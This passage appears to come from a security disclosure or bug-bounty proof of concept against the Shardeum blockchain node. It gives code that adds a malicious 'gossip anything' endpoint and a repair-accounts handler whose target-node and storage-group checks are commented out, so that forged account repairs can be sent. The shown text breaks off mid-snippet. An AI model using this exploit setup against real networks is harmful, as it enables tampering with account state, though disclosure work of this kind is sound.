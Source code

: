 Now point Shardeum to use the local copy of Shardu's Core as instructed in the README.md file of Shardeum's codebase.

In your local copy of Shardeum, open the file `./src/index.ts` and add the following function in line L1094  (https://github.com/shardeum/shardeum/blob/dev/src/index.ts#L1094)
```
  shardus.registerExternalPost('infosec_gossipAnything/', externalApiMiddleware, async (req, res) => {
    try {
      const obj = JSON.parse(JSON.stringify(req.body));

      const route = req.query.route as string;

      const pk = req.query.pk as string;
      let node = shardus.getNodeByPubKey(pk);

      console.log(`INFOSEC: sending to node: ${JSON.stringify({ node })}`);
      await shardus.p2p.tell([node], route, obj, true, '')

      return res.json({ "ok": 1 });
    } catch (e) {
      return res.json({ "error": e });
    }
  });
```

The code snippet above creates an HTTP POST entry point that allows us to instruct a malicious node to gossip any message using any desired route to another node.

In your local copy of Shardus Core, open the file `./src/state-manager/AccountPatcher.ts` and add the following function in line L335  (https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L335)

```
    this.p2p.registerInternal(
      'infosec_repair_oos_accounts',
      async (
        payload: { repairInstructions: AccountRepairInstruction[] },
        respond: (arg0: boolean) => Promise<boolean>,
        _sender: unknown,
        _tracker: string,
        msgSize: number
      ) => {
        profilerInstance.scopedProfileSectionStart('repair_oos_accounts', false, msgSize)

        try {
          for (const repairInstruction of payload?.repairInstructions) {
            const { accountID, txId, hash, accountData, targetNodeId, receipt2 } = repairInstruction

            // check if we are the target node
            //if (targetNodeId !== Self.id) {
            //  nestedCountersInstance.countEvent('accountPatcher', `repair_oos_accounts: not target node for txId: ${txId}`)
            //  continue
            //}

            // check if we cover this accountId
            //const storageNodes = this.stateManager.transactionQueue.getStorageGroupForAccount(accountID)
            //const isInStorageGroup = storageNodes.map((node) => node.id).includes(Self.id)
            //if (!isInStorageGroup) {
            //  nestedCountersInstance.countEvent('accountPatcher', `repair_oos_accounts: not in storage group for account: ${accountID}`)
            //  continue
            //}
```